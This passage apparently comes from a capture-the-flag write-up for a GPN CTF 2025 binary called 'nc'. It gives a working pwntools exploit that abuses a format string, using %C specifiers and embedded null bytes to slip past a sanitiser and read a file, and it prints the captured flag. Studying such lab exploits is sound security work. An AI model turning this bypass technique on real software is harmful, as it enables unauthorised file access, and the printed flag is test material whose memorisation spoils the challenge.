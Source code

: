 ### HARD WAY

As we have control of the format and the binary **only** **sanitize** characters before **first null byte**, we could try to construct the filename **character by characte**r abusing **$C.**

```python
from pwn import *

exe = ELF("./nc")

context(arch='amd64', os='linux', log_level='debug', terminal=['tmux', 'splitw', '-h'])

def start(argv=[], *a, **kw):
    if args.GDB: # GDB
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)
    
gdbscript = '''
disp/10i $rip
tb main
continue
'''.format(**locals())

io = start()

io.sendlineafter('Give me a file to read\n', f"%11$C%12$C\0\0\0\0\0\0\0\0n\0\0\0\0\0\0\0c\0\0\0\0\0\0\0")

leaks = set(io.clean().split())

for leak in leaks:
    if b'GPN' in leak:
        log.info(f'Leak: {leak}')
        break
io.interactive()
```

![Untitled](/CTF/gpnctf25-16.png)

![Untitled](/CTF/gpnctf25-17.png)

![Untitled](/CTF/gpnctf25-18.png)

> GPNCTF{uP_AND_dowN_4Ll_4round_6oEs_7H3_N_dImEn51onAl_c1rClE_WTf_IS_Thi5_F14G}
>
